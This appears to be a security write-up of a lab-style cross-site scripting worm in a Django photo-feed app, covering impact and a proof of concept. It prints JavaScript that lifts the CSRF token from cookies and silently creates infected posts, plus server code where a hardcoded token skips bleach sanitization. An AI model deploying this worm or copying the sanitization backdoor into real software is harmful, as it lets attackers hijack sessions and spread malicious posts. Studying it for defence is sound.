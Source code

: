 # 2024-12-06 - Cross-Site Scripting

## 1. **Overview**

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute in the context of the victim’s browser and can steal sensitive information, manipulate the DOM, or propagate malware.

## 2. **Description**

A critical XSS vulnerability exists in the application's post display and ad handling mechanisms. This flaw exploits unsanitized user inputs and cookies, allowing attackers to manipulate stored sessions and execute malicious scripts in an uncontrolled environment.

### 2.1 **Observations**

- **Post Rendering**: Posts displayed on the feed (`home.html`) may include malicious scripts in their captions, enabling XSS attacks upon user interaction.

- **Ad Page**: The ad page (`ad.html`) embeds an XSS payload using JavaScript that automatically executes when a user clicks a button. This payload hijacks the user’s session and creates a new malicious post in their name.

- **Obfuscated Scripts**: Although requests can be observed in the browser’s network tab, the scripts exploiting the XSS vulnerability are obfuscated, adding an extra layer of complexity.

![Obfuscated Scripts](./image.png)

#### 2.1.1 **Session-Based Worm Propagation**

- **LocalStorage Values (`SESSIONID`)**: These values track infection states. Session tokens such as `584e0ae6dcd0dc93ce82490c0d8d3bfc819ed87c`, `2d6cfd5ae2dfbf26ec2a2f26759306fdb54cc1e4`, and `ae0b6badeb338b59cda2135ed783c28beaf6d622` are used to track states like `new_entry`, `entered_contact`, and `infected`, respectively. These tokens are also used to disable the upload flag, bypassing input sanitization.

- **Payload Behavior**: The payload determines its action—displaying an image, spreading the worm, or infecting a new user—based on these infection states.

- **Payload Delivery**: Scripts embedded in posts dynamically create malicious posts and exploit cookies and CSRF tokens to propagate further.

## 3. **Impact**

### 3.1 **Propagation of Worm Script**

The XSS vulnerability enables the malicious worm to:
- Infect every user who interacts with infected posts or ads.
- Automatically create posts with malicious content, maintaining the infection cycle.
- Display a new ad every time the page is loaded or the user interacts with a malicious post, lasting for five seconds.

### 3.2 **User Data and CSRF Token Hijacking**

The payload extracts CSRF tokens, which can be used to:
- Forge requests on behalf of users.
- Steal sensitive session data stored in cookies or local storage.

## 4. **Proof of Concept**

### **Ad Page**

The ad page simulates a fake lottery-winning page where the user is prompted to click a button. This button hijacks the user’s CSRF token and creates a new post using the `new_entry` cookie.

```javascript
function createHiddenPost(caption) {
    const formData = new FormData();
    formData.append("uphoto", "");
    formData.append("caption", caption);
    formData.append("sha", "584e0ae6dcd0dc93ce82490c0d8d3bfc819ed87c");

    fetch("/upload", {
        method: "POST",
        body: formData,
        headers: {
            "X-CSRFToken": getCSRFToken(),
        },
    });
}

function getCSRFToken() {
    const cookies = document.cookie.split(";");
    for (let cookie of cookies) {
        const [key, value] = cookie.trim().split("=");
        if (key === "csrftoken") {
            return value;
        }
    }
    return null;
}
```

The correct `new_entry` cookie allows users to bypass input sanitization and submit scripts as input.

```python
if image:
    validate_image(image)

if sha != "584e0ae6dcd0dc93ce82490c0d8d3bfc819ed87c":
    caption = bleach.clean(caption, strip=True)

new_post = Post.objects.create(user=user, image=image, caption=caption)
new_post.save()
```

### **Home Page**

On the homepage, whenever an infected post is detected and the user’s cookie is `new_entry`, an ad is displayed, the session cookie is hijacked, and a new infected post is created to propagate the worm to other users.

```javascript
if (session === "584e0ae6dcd0dc93ce82490c0d8d3bfc819ed87c" || !session) {
    // Do nothing
} else {
    displayImage();
    createHiddenPost(text + script);
    localStorage.setItem("SESSIONID", "ae0b6badeb338b59cda2135ed783c28beaf6d622");
}
```

## 5. **References**

- <https://owasp.org/www-community/attacks/xss>

- <https://medium.com/@trixiahorner/creating-a-cross-site-scripting-worm-a-seed-lab-project-49076b7a8d03>

- <https://docs.djangoproject.com/en/5.1/topics/security/#cross-site-scripting-xss>

- <https://obfuscator.io>
